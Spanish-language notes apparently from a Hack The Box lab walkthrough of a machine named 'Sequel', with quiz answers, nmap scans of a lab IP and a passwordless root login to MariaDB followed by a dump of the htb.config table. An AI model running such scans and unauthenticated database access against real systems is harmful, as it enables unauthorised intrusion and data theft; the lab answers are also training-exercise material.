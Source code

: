En esta maquina vemos [[mysql]]

1)Durante nuestro escaneo, ¿qué puerto encontramos sirviendo a MySQL?
	3306

2)¿Qué versión de MySQL desarrollada por la comunidad está ejecutando el objetivo?
	MariaDB

3)Al utilizar el cliente de línea de comandos de MySQL, ¿qué interruptor debemos utilizar para especificar un nombre de usuario de inicio de sesión?
	-u
	`-u` Usuario
	`-p` Contraseña
	

4)¿Qué nombre de usuario nos permite acceder a esta instancia de MariaDB sin proporcionar una contraseña?
	root
	
5)En SQL, ¿qué símbolo podemos utilizar para especificar dentro de la consulta que queremos mostrar todo lo que hay dentro de una tabla?
	*

6)En SQL, ¿con qué símbolo debemos terminar cada consulta?
	;

7)Hay tres bases de datos en esta instancia de MySQL que son comunes a todas las instancias de MySQL. ¿Cuál es el nombre de la cuarta que es exclusiva de este host?
	htb
![[Sequel4.png]]

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.95.232
nmap -p- --open --min-rate 5000 -n -Pn -vvv -sS 10.129.95.232 -oG allports
nmap -sC -p3306 10.129.95.232 -oN target
```

![[Sequel1.png]]

![[Sequel2.png]]

![[Sequel3.png]]

Por el ttl sabemos que es una maquina linux, esta el puerto 3306 corriendo con mysql,
No se por que pero en el segundo escaneo de nmap el parametro -V no estaba andando, asi que solamente use el `-sC` para mandar los scripts de reconocimiento

------

# Intrusion por [[mysql]]

```
mysql -h 10.129.95.232 -P 3306 -u root
show databases;
use htb;
show tables;
select * from config;
```

Usamos la base de datos htb y despues dumpeamos los datos de la tabla config
![[Sequel5.png]]